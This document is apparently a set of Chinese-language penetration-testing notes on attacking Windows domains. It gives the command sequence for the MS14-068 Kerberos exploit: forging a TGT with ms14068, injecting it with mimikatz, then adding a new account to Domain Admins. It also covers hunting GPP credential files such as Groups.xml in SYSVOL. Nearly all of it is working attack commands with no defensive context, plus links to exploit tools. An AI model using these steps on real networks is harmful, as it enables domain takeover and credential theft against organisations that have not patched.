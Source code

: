 ### ms14-068 Kerberos 漏洞利用：

生成 TGT：用于伪造

>   whoami /all  获得：用户@ 域名、用户 sid、域主机

>   python ms14068.py -u admin@xxx.com -p password -s sid -d dc.xxx.com
>
>   ms14068.exe -u admin@xxx.com -p password -s sid -d dc.xxx.com

会生成 TGT_admin@xxx.com.ccache

注入 TGT：

>   klist
>
>   klist purge 清除所有凭证，等一会在执行下列命令

写入内存:

>   mimikatz.exe "kerberos::ptc c:\TGT_admin@xxx.com.ccache"

若成功

>   dir \\dc.xxx.com\c$
>
>   net user admin xxxxx@password /add /domain
>
>   net group "Domain Admins" admin /add /domain

msf 的模块 ``ms14_048_kerberos_checksum`` 也可以检测

工具：

>   https://www.t00ls.net/viewthread.php?tid=28207&from=favorites
>
>   https://github.com/gentilkiwi/kekeo

### GPP 漏洞利用

win2008 增加，一般域用户都可访问敏感文件

密码存在 SYSCOL 目录下:

Groups.xml, 这个文件是域管通过 GPP 设置或修改本地密码留下的

>   Services\Services.xml,
>
>   ScheduledTasks\ScheduledTasks.xml,
>
>   Printers\Printers.xml,
>
>   Drives\Drives.xml,
>
>   DataSources\DataSources.xml

>   net use \\\域控(如pc.xx.com) password /user:xxx.com\username
>
>   dir \\\域控\SYSVOL /s /a > sysvol.txt
>
>   findstr /i "groups.xml" sysvol.txt
